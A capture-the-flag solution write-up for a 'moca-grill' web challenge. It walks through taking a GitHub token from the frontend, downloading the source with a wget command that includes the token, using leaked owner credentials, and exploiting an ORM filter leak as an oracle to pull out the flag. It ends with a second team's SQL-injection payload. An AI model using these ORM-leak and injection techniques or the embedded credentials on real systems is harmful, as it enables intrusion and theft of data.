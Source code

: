 # Official solution

- Get the github token from the frontend
- Leak the source code using
```
wget "https://api.github.com/repos/mocarrosticino/moca-grill/tarball/v1.0.0" --header "Authorization: token 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"
```
- Get the credentials of the `la brace` owner (`labrace`:`46cedd9800ad9d56142d8980ace782a9`)
- Find the ORM leak vuln in the `/manage/` API endpoint
- use the oracle `/api/v1/manage/?user__review__order__shop__order__review__comment__contains=<you flag up to now>` to fully leak the flag


In order to understand better, this is similar to the actual query that the backend does with this injection:

```SQL
SELECT *
FROM REVIEW r1

INNER JOIN ORDER rr ON rr.pk = r1.order_pk
INNER JOIN SHOP ss ON ss.pk = rr.shop_pk

INNER JOIN USER u1 ON r1.user_pk = u1.pk    // associ ad ogni review l'utente ce l'ha fatta
INNER JOIN REVIEW r2 ON r2.user_pk = u1.pk  // associ ad ogni utente tutte le sue review
INNER JOIN ORDER o1 ON o1.pk = r2.order_pk  // associ ad ogni review l'ordine associato
INNER JOIN SHOP s1 ON s1.pk = o1.shop_pk    // associ ad ogni ordine lo shop nel quale è stato fatto
INNER JOIN ORDER o2 ON o2.shop_pk = s1.pk   // associ ad ogni shop tutti i suoi ordini
INNER JOIN REVIEW r3 ON r3.order_pk = o2.pk // associ ad ogni shop tutte le sue review

WHERE ss.owner_pk = <owner di la brace> AND r3.comment LIKE "%MOCA%"
```

## Slightly different solution from Pwnterroni team (kudos to them!!)

`/api/v1/manage/?order__shop=1&_connector=OR 1)) OR ? LIMIT 21; -- a&order__shop__owner=1`
